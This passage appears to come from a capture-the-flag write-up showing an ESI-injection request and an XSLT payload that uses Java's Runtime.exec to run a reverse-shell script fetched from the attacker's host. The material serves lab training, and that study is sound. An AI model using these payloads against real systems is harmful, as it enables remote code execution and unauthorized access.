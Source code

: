 
This command would download a reverse shell and execute it. Now, we just need to append this to an existing ticket query like this to download and run the XML file we created:

```http
POST /ticket.php HTTP/1.1
Host: 10.129.85.76:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://10.129.85.76:9001
Connection: close
Referer: http://10.129.85.76:9001/ticket.php
Cookie: PHPSESSID=nb64nmlnnesh3nc69h2s46l7uk
Upgrade-Insecure-Requests: 1



title=test&msg=test&id=TKT-1119;<esi:include src="http://localhost/" stylesheet="http://10.10.14.13/exe2.xsl"></esi:include>
```

This would download the XSL file we created. Afterwards, we need to create another one to run the file and execute commands via the same method.

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Our listener port would then receive a shell:

<figure><img src="../../../.gitbook/assets/image (7) (2) (1).png" alt=""><figcaption></figcaption></figure>
